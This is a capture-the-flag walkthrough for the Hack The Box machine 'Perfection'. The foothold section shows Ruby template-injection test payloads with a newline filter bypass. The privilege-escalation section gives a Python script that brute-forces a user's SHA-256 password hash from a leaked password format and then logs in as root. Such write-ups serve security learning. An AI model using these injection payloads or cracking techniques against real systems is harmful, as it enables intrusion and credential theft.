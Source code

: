 

# Foothold 

we see their is only ssh and the web. 

in the web we see the calculator for the Grade Calculator

![image](https://github.com/suljov/CTF-Walkthroughs/blob/main/hackthebox/Boxes/Perfection/Screenshots/Pasted%20image%2020240303175253.png)

after testing we see we might get some kind of os command injection

![image](https://github.com/suljov/CTF-Walkthroughs/blob/main/hackthebox/Boxes/Perfection/Screenshots/Pasted%20image%2020240303175336.png)


looking into `WEBrick` a little bit it might be ruby or some kind but not sure. we try some filter bypass and found `%0a` will kinda break it and we are able to use more characters to get a working payload 

![image](https://github.com/suljov/CTF-Walkthroughs/blob/main/hackthebox/Boxes/Perfection/Screenshots/Pasted%20image%2020240303180142.png)

to make a payload we find its a `SSTI` and use a payload for that.

after looking we found this payload 

```
<%= 7*7 %>
```

this one is just to test `SSTI`

but i dont work

![image](https://github.com/suljov/CTF-Walkthroughs/blob/main/hackthebox/Boxes/Perfection/Screenshots/Pasted%20image%2020240303180520.png)

we might need to encode some stuff.

we encode the start and the end of the payload

after encoding

```
<%25= 7*7 %25>
```


![image](https://github.com/suljov/CTF-Walkthroughs/blob/main/hackthebox/Boxes/Perfection/Screenshots/Pasted%20image%2020240303180629.png)

and we got 49 meaning it works. now we can use `system` to execute commands

we make a payoad to download and execute a bash script to get shell

![image](https://github.com/suljov/CTF-Walkthroughs/blob/main/hackthebox/Boxes/Perfection/Screenshots/Pasted%20image%2020240303180800.png)


and we have shell


![image](https://github.com/suljov/CTF-Walkthroughs/blob/main/hackthebox/Boxes/Perfection/Screenshots/Pasted%20image%2020240303180830.png)


# Privesc


after enumerating the box we a message from the mail

```
cat /var/mail/susan

Due to our transition to Jupiter Grades because of the PupilPath data breach, I thought we should also migrate our credentials ('our' including the other students

in our class) to the new platform. I also suggest a new password specification, to make things easier for everyone. The password format is:

{firstname}_{firstname backwards}_{randomly generated integer between 1 and 1,000,000,000}

Note that all letters of the first name should be convered into lowercase.

Please hit me with updates on the migration when you can. I am currently registering our university with the platform.

- Tina, your delightful student
```

ah so our password will be `susan_nasus<random number>`

inside our users home folder we see the folder `Migration` that as a file called `pupilpath_credentials.db`

after downloading it we see its the hashes for the users

![image](https://github.com/suljov/CTF-Walkthroughs/blob/main/hackthebox/Boxes/Perfection/Screenshots/Pasted%20image%2020240303181123.png)

so now we have a hash of the user susan. we now get a script that will crack this hash since we know what the password will look like

script: 

```
import hashlib

def generate_password(firstname):
    firstname_lower = firstname.lower()
    firstname_backwards = firstname_lower[::-1]
    for i in range(1, 1000000001):
        password = f"{firstname_lower}_{firstname_backwards}_{i}"
        hashed_password = hashlib.sha256(password.encode()).hexdigest()
        yield password, hashed_password

def crack_hash(hash_to_crack, firstname):
    for password, hashed_password in generate_password(firstname):
        if hashed_password == hash_to_crack:
            return password
    return None

# Hash provided by the user
hash_to_crack = "abeb6f8eb5722b8ca3b45f6f72a0cf17c7028d62a15a30199347d9d74f39023f"

# Firstname of the user
firstname = "Susan"

# Attempt to crack the hash
cracked_password = crack_hash(hash_to_crack, firstname)

if cracked_password:
    print(f"Hash cracked! Password is: {cracked_password}")
else:
    print("Unable to crack the hash.")

```

after a while we see the hash was cracked

![image](https://github.com/suljov/CTF-Walkthroughs/blob/main/hackthebox/Boxes/Perfection/Screenshots/Pasted%20image%2020240303181749.png)


we now use that password and login as root

![image](https://github.com/suljov/CTF-Walkthroughs/blob/main/hackthebox/Boxes/Perfection/Screenshots/Pasted%20image%2020240303181448.png)
